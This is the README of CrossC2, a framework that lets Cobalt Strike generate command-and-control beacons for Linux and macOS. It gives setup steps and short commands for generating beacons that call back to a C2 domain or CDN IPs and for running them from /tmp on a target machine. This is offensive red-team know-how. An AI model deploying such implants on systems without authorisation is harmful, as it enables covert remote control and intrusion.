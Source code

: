 # CrossC2 framework

[![ Linux ](https://svgshare.com/i/Zhy.svg)](https://svgshare.com/i/Zhy.svg)
[![ macOS ](https://svgshare.com/i/ZjP.svg)](https://svgshare.com/i/ZjP.svg)
[![GitHub issues-closed](https://img.shields.io/github/issues-closed/gloxec/CrossC2.svg)](https://GitHub.com/gloxec/CrossC2/issues?q=is%3Aissue+is%3Aclosed)
[![Release](https://img.shields.io/github/release/gloxec/CrossC2.svg)](https://github.com/gloxec/CrossC2/releases/latest)
[![Downloads](https://img.shields.io/github/downloads/gloxec/CrossC2/total?label=Release%20Download)](https://github.com/gloxec/CrossC2/releases/latest)



<p align="center">
  <img alt="CrossC2 Logo" src="media/16292585578533/CrossC2_logo.png" height="30%" width="30%">
</p>


[README](README.md) | [中文文档](README_zh.md) | [README_FULL](README_full.md) | [中文完整文档](README_zh_full.md) 


# CobaltStrike support

Support CobaltStrike's security assessment of other platforms (Linux/MacOS/...), and include the development support of Unix post-penetration module

|                 | CS3.14(bug fixes) | CS4.0 | CS4.X (>=4.1) |
|-----------------|----------|-------|---------------|
| Master branch        | ✅        |       |               |
| cs4.0 branch         |          | ✅     |               |
| cs4.1 branch         |          |       | ✅             |
|                 |          |       |               |
| Release Page <= v2.1 | ✅        |       |               |
| Release Page >= v2.2 |          |       | ✅             |

# Usage

> 1. Download

Download **CrossC2.cna** **genCrossC2** **CrossC2Kit** from [release](/gloxec/CrossC2/releases), modify `CrossC2.cna` configuration

> 2. Create listener and copy key

* Create `windows/beacon_https/reverse_https` listener
* Copy `.cobaltstrike.beacon_keys` in **teamserver directory** to **local**

> 3. Function extension

* Add `CrossC2Kit_Loader.cna`, including memory loading and other functions
* `cs4.x` version file management, process list function is missing, you must use this Loader to restart

> 4. Generate beacon

Use the GUI function provided by cli or cna to generate beacon by default

* When teamserver is configured with c2profile, the rebind library needs to be generated in advance for use when generating beacon
* When using the forwarding method, in addition to specifying the rebind library, you also need to pay attention to the C2_HOST field when generating:
    * When the service provider uses the HTTP request content to verify the type, it needs to specify the CDN IP list: `genCrossC2 1.1.1.1,2.2.2.2,3.3.3.3,xxx.xxx.xxx.xx ...`
    * When the CDN server is verified by SNI, CDN operators such as Cloudflare need to specify the domain name bound to the CDN: `genCrossC2 c2.domain.com ...`

Rebind library related introduction: 
* [📖wiki](https://gloxec.github.io/CrossC2/zh_cn/protocol/)
* Demo: 
    * C2Profile demo [📄demo_c2profile.profile](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/https.profile) [📄demo_c2profil_rebind.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/c2profile.c) 
    * UDP communication demo [📄demo_udp_proxy_server.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/proxy_udp.py) [📄demo_udp_rebind.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/rebind_udp.c)
* Issues: [🏷issue #65 (Example of data transfer and c2profile field correspondence)](https://github.com/gloxec/CrossC2/issues/65)、[🏷issue #89 (Data processing example)](https://github.com/gloxec/CrossC2/issues/89#issuecomment-861194022)

> 5. Run beacon

* Run the one-click online script generated by the CrossC2 plugin on the target
* After uploading the beacon to the target machine for empowered operation
* Set the working directory for beacon and run: `export CCPATH=/opt/ && /tmp/c2`
* Temporarily specify the protocol library for beacon and run: `/tmp/c2 /tmp/c2-rebind.so`
* Temporarily set C2 configuration for beacon: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`
* Set DEBUG to view the online status of beacon: `export CCDEBUG=1 && /tmp/c2`

# Note

`Only for internal use by enterprises and organizations, this framework has a certain degree of instability. Non-professionals are not allowed to use it. Anyone shall not use it for illegal purposes and profitability. Besides that, publishing unauthorized modified version is also prohibited, or otherwise bear legal responsibilities.`

# Todo

1. http-proxy (auth) & socks proxy back connection support
2. node beacon? (Single node type, can host other beacon without relying on teamserver)
3. Linux & MacOS side so/dylib's reverse shell support, and its derivative process injection functions

# Thank

Thanks to **@Emma** for the Logo designed for CrossC2, which is designed in the style of **Armitage** and **CobaltStrike** series
